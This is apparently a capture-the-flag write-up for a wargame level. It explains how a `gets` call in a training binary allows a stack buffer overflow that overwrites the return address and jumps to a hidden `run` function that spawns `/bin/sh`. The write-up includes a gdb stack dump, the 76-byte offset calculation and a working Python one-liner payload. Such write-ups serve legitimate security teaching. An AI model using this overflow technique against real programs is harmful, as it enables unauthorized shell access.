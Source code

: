 # LEVEL 0

## 💡 Explanation

In this level we have to:
1. When launching the program `./level1` it waits for an input; by passing "aaaa" it exist without any problem but if the input is much longer it segfaults!
2. By disambling the main we see that there is a call to the function `gets` which is probably the one causing the segfault. This can easily be exploited by doing a buffer overflow and understanding where is each register saved in memory. [Here I spent HOURS looking for how to exploit the buffer overflow and pass a shellcode, but no...]
3. After the small parenthesis I've realised that when looking at what is in the binary but not in the main we discover a function `run` which is not called by the main. By looking the objdump we see that this function has a call to `system` and when looking at the hexdump we see some strings as "Good... Wait what?" and "/bin/sh".
4. We are going to try to access the function `run` by exploiting the buffer overflow that we talked about before. By having a look at the stack after calling `gets` and passing a long string of "a" (61 in hex) we will have something like this:

```
0xbffff6d0:	 <  ESP  >	0x0000002f	0xbffff72c	0xb7fd0ff4
0xbffff6e0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff6f0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff700:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff710:	0x61616161	0x61616161	0x08048400	0xb7fd0ff4
0xbffff720:	0x080484a0	0x00000000	 <  EBP  >	 <  EIP  >
```

5. We can see that if we exceed the buffer we can write into the EIP and therefore, the program will jump to that instruction after the get; therefore, we'll have to place the address of the function `run` (/!\ little endian! 08048444 => \x44\x84\x04\x08) exactly on the EIP. To do so, we have to calculate were does the program start writing the input (0xbffff6e0) and how many bytes we have until EIP (0xbffff72c - 0xbffff6e0) which gives a total of 76 bytes.

## 👾 Commands

To find the solution:
```
[VM]  objdump -d /home/user/level1/level1
[VM]  hexdump -C /home/user/level1/level1
[GDB] disas main
[GDB] disas run
[GDB] x/24xw $esp
```

To find the flag:
- `(python -c 'print "1"*76 + "\x44\x84\x04\x08"' ; cat - ) | /home/user/level1/level1 `
